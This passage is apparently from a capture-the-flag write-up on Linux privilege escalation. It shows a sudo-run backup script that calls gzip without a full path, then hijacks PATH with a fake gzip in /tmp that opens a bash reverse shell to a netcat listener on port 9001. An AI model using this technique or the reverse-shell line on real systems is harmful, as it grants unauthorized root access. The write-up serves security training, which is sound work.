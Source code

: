 m4lwhere can execute a script with sudo. The script conctents are found the the /opt/scripts/ directory.

{{< highlight bash >}}
File: /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
{{< /highlight >}}

The script is calling the `gzip` command, however it does not include the full path, so the command is called from our users current path. We can leverage this and hijack the path to run our own malicious gzip command, this is our vector for privilege escalation. This is possible due to sudo misconfiguration in which a `secure_path` is not set. -- Credit: <a href="https://ghostccamm.com/">GhostCcamm</a>

The current path appears as:

{{< highlight bash >}}
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
{{< /highlight >}}

To create our own gzip command, we first create a directory in the /tmp/ directory where we will put our script.
We can then export this directory as our new path.

{{< highlight bash >}}
mkdir /tmp/newpath
export PATH=/tmp/newpath:$PATH
{{< /highlight >}}

Changing into our new directory, we can write a our malicious script to spawn a reverse shell as the root user.

{{< highlight bash >}}
File: gzip
#!/bin/bash
bash -i >& /dev/tcp/0.0.0.0/9001 0>&1
{{< /highlight >}}

Setting up a listener on netcat, we can catch the reverse shell after running the script.
